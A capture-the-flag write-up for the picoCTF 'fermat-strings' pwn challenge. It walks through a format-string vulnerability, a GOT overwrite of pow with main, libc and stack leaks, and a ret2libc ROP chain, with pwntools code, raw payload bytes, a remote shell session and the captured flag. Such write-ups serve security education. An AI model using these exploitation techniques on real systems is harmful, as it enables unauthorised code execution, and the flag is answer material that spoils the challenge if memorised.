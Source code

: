 # fermat-strings

Format-string Exploit, GOT Overwrite, ret2libc

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/fermat-strings/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Canary protection is enabled, but we can bypass that protection and write the ROP chain directly into the retaddr (and onwards) if there is a format-string vulnerability. 

## Overview of Binary

The binary accepts two strings of at most size `SIZE = 0x100` into buffers `A` and `B`, before setting the first newline character to a null byte. 

It then calls `atoi` on the buffers and exits if an error occurs, as shown

```c
a = atoi(A);
b = atoi(B);

if(a == 0 || b == 0) {
    puts("Error: could not parse numbers!");
    return 1;
}
```

The format string vulnerability occurs after this, where the processed string including the contents of `A` and `B` is passed as a singular argument to `printf`. 

```c
char buffer[SIZE];
snprintf(buffer, SIZE, "Calculating for A: %s and B: %s\n", A, B);
printf(buffer);
```

Note that to pass the `atoi` check (i.e. to ensure that `a != 0 and b != 0`, where `atoi` returns 0 on error), we simply need to ensure that the initial substring of `A` and `B` are stringified integers (which are not 0). This is because `atoi` only cares about the initial part of the string (see [man atoi](https://man7.org/linux/man-pages/man3/atoi.3.html)). 

For example, a string like `2%10$p` works as shown

```
(venv) asdiml@DESKTOP-?????:/mnt/d/CTFs/picoCTF/Pwn/fermat-strings$ ./chall
Welcome to Fermat\'s Last Theorem as a service
A: 2%10$p
B: 2%10$p
Calculating for A: 20x702430312532 and B: 20x702430312532
```

Lastly, it calls `pow` to cube `a` and `b` and compare it to `i`-cubed for some small range of `i`, printing the value of `i` if `a^3 + b^3 == i^3`. By [Fermat's Last Theorem](https://en.wikipedia.org/wiki/Fermat%27s_Last_Theorem), however, this is impossible (and also is irrelevant to the challenge).  

## Obtaining the libc and Linker

We can obtain the libc and linker used on the server by running the Ubuntu Docker image specified in the provided [Dockerfile](./Dockerfile)

```docker
docker run --rm -it -v "$PWD":/app ubuntu@sha256:703218c0465075f4425e58fac086e09e1de5c340b12976ab9eb8ad26615c3715
```

and looking in `/usr/lib/x86_64-linux-gnu` for the libc and linker

```
root@6f2d04dd2427:/# cd /usr/lib/x86_64-linux-gnu
root@6f2d04dd2427:/usr/lib/x86_64-linux-gnu# ls -la | grep -E "libc.so.6|ld-linux-x86-64.so.2"
lrwxrwxrwx  1 root root      10 Aug 17  2020 ld-linux-x86-64.so.2 -> ld-2.31.so
lrwxrwxrwx  1 root root      12 Aug 17  2020 libc.so.6 -> libc-2.31.so
```

Lastly, the `-v "$PWD":/app` option which mounts a volume of the host machine into the Docker container (at the target directory `/app`) allows for easy copying of those files outside of the container

```
root@6f2d04dd2427:/usr/lib/x86_64-linux-gnu# cp libc.so.6 /app
root@6f2d04dd2427:/usr/lib/x86_64-linux-gnu# cp ld-linux-x86-64.so.2 /app
```

P.S. I moved these into the `./patched` sub-directory before copying `chall` over to patch it with `pwninit`. 

## Overwriting GOT Entry of `pow` with address of `main`

The issue with the program flow of the challenge binary, as is, is that the format string vulnerability occurs only once. However, we need to use results from an arb (arbitrary) read using the vulnerability (i.e. to leak the libc base address and an address on the stack) to arb write with the vulnerability (i.e. to overwrite the retaddr of `main` with a call to `system`), which cannot occur within only one vulnerability instance. 

We thus need the fmtstr vulnerability to occur more than once, and the only way to do this is for `main` (or some address in `main` before the fmtstr vuln) to run again. 

Since `pow` is called after the fmtstr vulnerability occurs, we can overwrite its entry in the GOT to instead call `main`. 

This can be done entirely in `A`, without any payload being used in `B`. 

### Minor Subtleties when conducting the Fmtstr Exploit

As the string "Calculating for A: " is printed before that which we put into `A`, we need to subtract the length of that stringn from `N` of the first `%Nc` specifier, where `N` is some integer. 

Additionally, to pass the `atoi()` check, we prepend `b'1AAAAAAA'` to the payload, and thus an additional 8 needs to be subtracted from `N`. 

The following code block shows how the payload is crafted, where you can view [the solve script](./solve.py) for a few more lines of explanation as comments

```python
payload_bytes = fmtstr_payload(fmtstr_offset_bufA + 1, {exe.got.pow: exe.symbols.main}, write_size='short')
payload = bytearray(payload_bytes)

first_spcfier_numchars = int(payload[1:5].decode())
first_spcfier_numchars_modified_bytes = str(first_spcfier_numchars - (buf_len_before_bufA + 8)).encode()
payload[1:5] = first_spcfier_numchars_modified_bytes
```

## Leaking the libc base addr and saved `rbp`

How the libc base address and saved `rbp` of the previous stack frame are leaked is basically the same as that used in [guessing-game-2](../guessing-game-2/solve.md#leaking-the-libc-base-addr-and-saved-ebp). 

The location where retaddr for the third `main` call (first call was to overwrite the GOT `pow` entry, second call for these leaks, and third is to ret2libc) is stored is then a fixed offset from the leaked saved `rbp`. This offset can be easily obtained by stepping through program execution with gdb and getting the difference between the two at the point when the third fmtstr vulnerability occurs. 

## Restoring `exe.got.pow`, and ret2libc

As with most pwn challs, our final goal is to spawn a shell by overwriting the return address of `main` with a ROP chain that runs `system("/bin/sh")`. 

However, if `pow` keeps on calling `main`, then `main` will never be able to return (see source code below)

```c
int main(void)
{

  ...

  int answer = -1;
  for(int i = 0; i < 100; i++) {
    if(pow(a, 3) + pow(b, 3) == pow(i, 3)) {
      answer = i;
    }
  }

  if(answer != -1) printf("Found the answer: %d\n", answer);
}
```

Thus, our payload will not only need to write in the ROP chain onto the address starting from the retaddr, but also write the original value of the GOT `pow` entry back into the table (so that the for loop can execute properly till completion). 

In the [solve script](./solve.py), ROP chain construction and the creation of the `writes` dictionary is done as follows

```python
rop_chain = b''.join([
    p64(0x400b34), # ret gadget for stack alignment
    p64(0x400b33), # pop rdi gadget
    p64(next(libc.search(b"/bin/sh\x00"))),
    p64(libc.symbols.system),
])

writes = {
    exe.got.pow: 0x400716 # Restore original value in GOT table
}
for i in range(len(rop_chain)//8):
    writes[retaddr + i*8] = u64(rop_chain[i*8:(i+1)*8])
```

Finally, we create the payload, edit it in the same way as when we [overwrote the GOT for the first time](#overwriting-got-entry-of-pow-with-address-of-main), and send it to profit. 

## Flag

```bash
[+] Opening connection to mars.picoctf.net on port 31929: Done
[*] payload_1=bytearray(b'%2076c%14$lln%9c%15$hhna@\x10`\x00\x00\x00\x00\x00B\x10`\x00\x00\x00\x00\x00')
[*] hex(libc.address)='0x7f8d6a638000'
[*] hex(saved_rbp)='0x7ffd84b16400'
[*] payload_3=bytearray(b'%1787c%28$lln%42c%29$hhn%1011c%30$llnc%31$lln%12c%32$hhn%33$hhn%51408c%34$lln%8602c%35$lln%29886c%36$hn%22c%37$hn%5391c%38$hn%39$hnaaaab@\x10`\x00\x00\x00\x00\x00B\x10`\x00\x00\x00\x00\x00\x90]\xb1\x84\xfd\x7f\x00\x00\x88]\xb1\x84\xfd\x7f\x00\x00\x92]\xb1\x84\xfd\x7f\x00\x00\x8a]\xb1\x84\xfd\x7f\x00\x00\xa0]\xb1\x84\xfd\x7f\x00\x00\x98]\xb1\x84\xfd\x7f\x00\x00\xa2]\xb1\x84\xfd\x7f\x00\x00\x9a]\xb1\x84\xfd\x7f\x00\x00\xa4]\xb1\x84\xfd\x7f\x00\x00\x9c]\xb1\x84\xfd\x7f\x00\x00')
[*] Switching to interactive mode
Calculating for A: 1AAAAAAA                                                                    

... TRUNCATED ...

                                      aaaab@\x10` and B: 1
$ ls
flag.txt
run
$ cat flag.txt
picoCTF{f3rm4t_pwn1ng_s1nc3_th3_17th_c3ntury}
```

